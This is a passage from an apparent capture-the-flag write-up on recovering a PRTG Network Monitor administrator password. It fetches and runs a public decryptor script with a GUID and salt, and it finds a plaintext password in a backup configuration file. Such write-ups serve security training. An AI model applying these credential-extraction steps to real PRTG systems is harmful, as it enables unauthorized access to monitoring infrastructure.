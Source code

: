 ```bash
                    OEASMEIE74Q5VXSPFJA2EEGBMEUEXFWW
                  </cell>
                </password>
                <playsound>
```

Let’s try to crack the hash. Searching up how to decrypt PRTG password, we come across this:

[https://github.com/yobabyte/decryptocollection](https://github.com/yobabyte/decryptocollection)

Let’s download the script:

```bash
wget https://raw.githubusercontent.com/ghettorce/decryptocollection/main/prtg/prtg_string_decryptor.py

python3 -m venv myenv
source myenv/bin/activate

pip3 install pycryptodome
```

Looks like we also need GUID, since PRTG probably employs the latest algo. From the site, we get: *The **guid** value is stored in the attribute of **root** node in `PRTG Configuration.dat` file*.

```bash
  <root version="16" oct="PRTG Network Monitor 18.1.37.13946" saved="2/26/2019 2:54:23 AM" max="2017" guid="{221B25D6-9282-418B-8364-F59561032EE3}" treeversion="0" created="2019-02-02-23-18-27" trial="42f234beedd545338910317db1fca74dbe84030f">
```

After a little research, we found out that col 1 is the salt, and col 0 is the password. Let’s decrypt:

```bash
python3 prtg_string_decryptor.py aes --guid '{221B25D6-9282-418B-8364-F59561032EE3}' -s 'OEASMEIE74Q5VXSPFJA2EEGBMEUEXFWW' 'JO3Y7LLK7IBKCMDN3DABSVAQO5MR5IDWF3MJLDOWSA======'
```

However, this decrypts to nothing. The 'PRTG Configuration.old’ file has the same encrypted password as the original. However, the .bak file has a different one. Let’s try that:

```bash
python3 prtg_string_decryptor.py aes --guid '{221B25D6-9282-418B-8364-F59561032EE3}' -s 'M24VKFRECBEGN3ZQNGSET723GFIPVHYX' 'PDWXMOPZT43U2GKGR3YCBILXDMLAUZVBN27KGBOPKXRQ===='

None

```

Did not work. 

Searching for the username prtgadmin in the file resulted us in finding:

```bash
            <dbpassword>
	      <!-- User: prtgadmin -->
	      PrTg@dmin2018
            </dbpassword>
            <dbtimeout>
```
